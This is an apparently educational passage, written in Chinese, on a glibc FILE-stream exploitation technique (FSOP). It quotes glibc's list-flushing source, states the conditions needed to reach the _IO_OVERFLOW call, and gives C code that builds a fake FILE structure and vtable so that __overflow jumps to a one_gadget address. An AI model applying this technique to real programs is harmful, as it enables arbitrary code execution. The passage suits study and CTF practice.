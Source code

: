 ```C

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
           || (_IO_vtable_offset (fp) == 0
               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                                    > fp->_wide_data->_IO_write_base))
#endif
           )
          && _IO_OVERFLOW (fp, EOF) == EOF)
        result = EOF;

      if (do_lock)
        _IO_funlockfile (fp);
      run_fp = NULL;

      if (last_stamp != _IO_list_all_stamp)
        {
          /* Something was added to the list.  Start all over again.  */
          fp = (_IO_FILE *) _IO_list_all;
          last_stamp = _IO_list_all_stamp;
        }
      else
        fp = fp->_chain;
    }

```

&emsp;&emsp;<font size=2>这里出现的`_IO_OVERFLOW`就是我们可以伪造的`vtable`上的函数指针，可以看到`fp`先指向`_IO_list_all`，后面有用`fp = fp->_chain`遍历。要使控制流到达我们的`_IO_OVERFLOW`需要满足：</font></br>

```C
(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
||
(_IO_vtable_offset (fp) == 0
               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                                    > fp->_wide_data->_IO_write_base)

```

&emsp;&emsp;<font size=2>虽然第二个也可以，但是显然第一个看着就方便很多，我们直接构造为第一个就行：</font></br>

```C
        // fake _mode
        *p = 0;
        // _IO_write_base
        *(p+4) = 0;
        // _IO_write_ptr
        *(p+5) = 1;
        // __overflow in vtable
        *(p+3) = libc_base+one_gadget;
        // fake vtable
        *(ull*)((ull)p+0xd8) = (ull)p;

```
